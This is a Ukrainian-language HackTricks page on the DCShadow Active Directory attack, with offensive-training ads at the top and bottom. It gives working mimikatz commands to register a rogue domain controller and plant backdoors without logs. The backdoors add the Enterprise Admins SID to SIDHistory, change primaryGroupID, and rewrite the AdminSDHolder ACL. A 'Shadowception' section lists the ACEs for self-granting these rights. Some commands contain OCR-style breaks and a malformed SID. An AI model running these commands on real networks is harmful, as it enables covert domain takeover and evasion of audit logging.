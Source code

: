 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Він реєструє **новий контролер домену** в AD і використовує його для **поширення атрибутів** (SIDHistory, SPNs...) на вказаних об'єктах **без** залишення будь-яких **логів** щодо **модифікацій**. Вам **потрібні DA** привілеї та бути всередині **кореневого домену**.\
Зверніть увагу, що якщо ви використовуєте неправильні дані, з'являться досить неприємні логи.

Для виконання атаки вам потрібно 2 екземпляри mimikatz. Один з них запустить RPC сервери з привілеями SYSTEM (тут потрібно вказати зміни, які ви хочете виконати), а інший екземпляр буде використаний для поширення значень:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Потрібен DA або подібний" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Зверніть увагу, що **`elevate::token`** не працюватиме в сесії `mimikatz1`, оскільки це підвищило привілеї потоку, але нам потрібно підвищити **привілей процесу**.\
Ви також можете вибрати об'єкт "LDAP": `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Ви можете внести зміни від DA або від користувача з мінімальними правами:

* В **об'єкті домену**:
* _DS-Install-Replica_ (Додати/Видалити репліку в домені)
* _DS-Replication-Manage-Topology_ (Управління топологією реплікації)
* _DS-Replication-Synchronize_ (Синхронізація реплікації)
* **Об'єкт сайтів** (та його нащадки) в **контейнері конфігурації**:
* _CreateChild and DeleteChild_
* Об'єкт **комп'ютера, який зареєстрований як DC**:
* _WriteProperty_ (Не записувати)
* **Цільовий об'єкт**:
* _WriteProperty_ (Не записувати)

Ви можете використовувати [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1), щоб надати ці привілеї непривілейованому користувачу (зверніть увагу, що це залишить деякі журнали). Це набагато більш обмежувально, ніж мати привілеї DA.\
Наприклад: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Це означає, що ім'я користувача _**student1**_ при вході в машину _**mcorp-student1**_ має DCShadow привілеї над об'єктом _**root1user**_.

## Використання DCShadow для створення бекдорів

{% code title="Встановити Enterprise Admins в SIDHistory для користувача" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Змінити PrimaryGroupID (додати користувача до членів Domain Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Змінити ntSecurityDescriptor AdminSDHolder (надати повний контроль користувачу)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Надати права DCShadow за допомогою DCShadow (без змінених журналів прав)

Нам потрібно додати наступні ACE з SID нашого користувача в кінці:

* На об'єкті домену:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* На об'єкті комп'ютера атакуючого: `(A;;WP;;;UserSID)`
* На об'єкті цільового користувача: `(A;;WP;;;UserSID)`
* На об'єкті Сайтів у контейнері Конфігурації: `(A;CI;CCDC;;;UserSID)`

Щоб отримати поточний ACE об'єкта: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Зверніть увагу, що в цьому випадку вам потрібно зробити **кілька змін,** а не лише одну. Тому, в **сесії mimikatz1** (RPC сервер) використовуйте параметр **`/stack` з кожною зміною,** яку ви хочете внести. Таким чином, вам потрібно буде **`/push`** лише один раз, щоб виконати всі накопичені зміни на ружому сервері.



[**Більше інформації про DCShadow на ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
